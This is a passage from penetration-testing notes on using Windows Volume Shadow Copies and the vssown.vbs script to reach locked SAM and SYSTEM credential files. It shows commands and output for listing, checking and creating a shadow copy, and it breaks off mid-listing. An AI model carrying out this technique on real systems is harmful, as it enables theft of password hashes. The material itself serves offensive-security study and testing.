 * Abusing the Volume Shadow Copies functionality in modern Windows operating systems to access locked system files like `C:\Windows\System32\config`'s SAM and SYSTEM and others.

* Need to be local admin at least.

* You can use the Volume Shadow Copy Management command line interface, **vssown**, to leverage this technique as follows.

  - List shadow copies:
    ```
    C:\>cscript vssown.vbs /list
    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    SHADOW COPIES
    =============
    ```
  As expected, no shadow copies initially.

  - Verify the status of the Volume Shadow Service (VSS):
    ```
    C:\>cscript vssown.vbs /status
    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    [*] Stopped

    C:\>cscript vssown.vbs /mode
    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    [*] VSS service set to 'Manual' start mode.
    ```
    In this case, once we are done, we need to restore it to the initial state (Stopped).

  - Create a new shadow copy:
    ```
    C:\>cscript vssown.vbs /create c
    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    [*] Attempting to create a shadow copy.
    ```

  - Verify that the shadow copy has been created:
    ```
    C:\>cscript vssown.vbs /list
    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    SHADOW COPIES
    =============

    [*] ID:                  {D79A4E73-CCAB-4151-B726-55F6C5C3A853}
    [*] Client accessible:   True
    [*] Count:               1
    [*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
    [*] Differnetial:        True
    [*] Exposed locally:     False
    [*] Exposed name:
    [*] Exposed remotely:    False
    [*] Hardware assisted:   False
    [*] Imported:            False
    [*] No auto release:     True
    [*] Not surfaced:        False
    [*] No writers:          True
    [*] Originating machine: LAPTOP
    [*] Persistent:          True
    [*] Plex:                False